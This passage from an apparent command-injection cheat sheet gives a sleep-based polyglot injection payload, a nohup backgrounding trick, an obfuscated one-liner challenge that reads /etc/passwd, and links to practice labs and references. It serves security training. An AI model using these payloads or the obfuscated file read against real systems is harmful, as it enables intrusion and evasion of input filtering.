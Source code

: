   ```powershell
  echo "YOURCMD/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/"
  echo 'YOURCMD/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/'
  ```


## Tricks

### Backgrounding long running commands

In some instances, you might have a long running command that gets killed by the process injecting it timing out.
Using `nohup`, you can keep the process running after the parent process exits.

```bash
nohup sleep 120 > /dev/null &
```

### Remove arguments after the injection

In Unix-like command-line interfaces, the `--` symbol is used to signify the end of command options. After `--`, all arguments are treated as filenames and arguments, and not as options.


## Labs

* [OS command injection, simple case](https://portswigger.net/web-security/os-command-injection/lab-simple)
* [Blind OS command injection with time delays](https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays)
* [Blind OS command injection with output redirection](https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection)
* [Blind OS command injection with out-of-band interaction](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band)
* [Blind OS command injection with out-of-band data exfiltration](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration)


## Challenge

Challenge based on the previous tricks, what does the following command do:

```powershell
g="/e"\h"hh"/hm"t"c/\i"sh"hh/hmsu\e;tac$@<${g//hh??hm/}
```


## References

- [Argument Injection and Getting Past Shellwords.escape - Etienne Stalmans - November 24, 2019](https://staaldraad.github.io/post/2019-11-24-argument-injection/)
- [Argument Injection Vectors - SonarSource - February 21, 2023](https://sonarsource.github.io/argument-injection-vectors/)
- [Back to the Future: Unix Wildcards Gone Wild - Leon Juranic - June 25, 2014](https://www.exploit-db.com/papers/33930)
- [Bash Obfuscation by String Manipulation - Malwrologist, @DissectMalware - August 4, 2018](https://twitter.com/DissectMalware/status/1025604382644232192)
- [Bug Bounty Survey - Windows RCE Spaceless - Bug Bounties Survey - May 4, 2017](https://web.archive.org/web/20180808181450/https://twitter.com/bugbsurveys/status/860102244171227136)
- [No PHP, No Spaces, No $, No {}, Bash Only - Sven Morgenroth - August 9, 2017](https://twitter.com/asdizzle_/status/895244943526170628)
- [OS Command Injection - PortSwigger - 2024](https://portswigger.net/web-security/os-command-injection)
- [SECURITY CAFÉ - Exploiting Timed-Based RCE - Pobereznicenco Dan - February 28, 2017](https://securitycafe.ro/2017/02/28/time-based-data-exfiltration/)